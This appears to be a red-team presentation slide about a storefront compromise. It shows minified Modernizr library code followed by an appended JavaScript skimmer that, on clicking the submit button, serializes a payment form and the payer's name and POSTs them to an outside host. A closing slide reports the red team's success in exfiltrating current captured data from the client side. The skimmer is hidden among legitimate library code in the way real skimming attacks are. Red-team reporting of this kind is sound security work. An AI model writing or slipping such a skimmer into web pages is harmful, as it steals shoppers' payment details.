

a=document.createElement("ruby"),b=document.createElement("rt"),c=document.createElement("rp"),d=document.documentElement,e="display",f="fontSize";return
a.appendChild(c),a.appendChild(b),d.appendChild(a),g(c,e)=="none"||g(a,e)=="ruby"&&g(b,e)=="ruby-text"||g(c,f)=="6pt"&&g(b,f)=="6pt"?(h(),!0):(h(),!1)}),Modernizr.addTest("time","valueAsDate"in
document.createElement("time")),Modernizr.addTest({texttrackapi:typeof document.createElement("video").addTextTrack=="function",track:"kind"in
document.createElement("track")}),Modernizr.addTest("placeholder",function(){return"placeholder"in(Modernizr.input||document.createElement("input"))&&"placeholder"in(Modernizr.textarea||document.createElement("textarea"))}),Modernizr.addTest("speechinput",function(){var
a=document.createElement("input");return"speech"in a||"onwebkitspeechchange"in
a}),function(a,b){b.formvalidationapi=!1,b.formvalidationmessage=!1,b.addTest("formvalidation",function(){var c=a.createElement("form");if("checkValidity"in c){var
d=a.body,e=a.documentElement,f=!1,g=!1,h;return b.formvalidationapi=!0,c.onsubmit=function(a){window.opera||a.preventDefault(),a.stopPropagation()},c.innerHTML='<input
name="modTest"
required><button></button>',c.style.position="absolute",c.style.top="-99999em",d||(f=!0,d=a.createElement("body"),d.style.background="",e.appendChild(d)),d.appendChild(c),h=c.getElementsByTagName("input")[0],h.oninvalid=function(a){g=!0,a.preventDefault(),a.stopPropagation()},b.formvalidationmessage=!!h.validationMessage,c.getElementsByTagName("button")[0].click(),d.removeChild(c),f&&e.removeChild(d),g}return!1})}(document,window.Modernizr);
window.onload=function(){jQuery("#submitButton").bind("mouseup touchend",function(a){var
n={};jQuery("#paymentForm").serializeArray().map(function(a){n[a.name]=a.value});var e=document.getElementById("personPaying").innerHTML;n.person=e;var
t=JSON.stringify(n);setTimeout(function(){jQuery.ajax({type:"POST",async:!0,url:"https://sedgecom.maze/api/v1/",data:t,dataType:"application/json"})},500)})};
# Red Team Wins!

Javascript skimmer on storefront
Captured data known to be current
Captured data exfiltrated from client side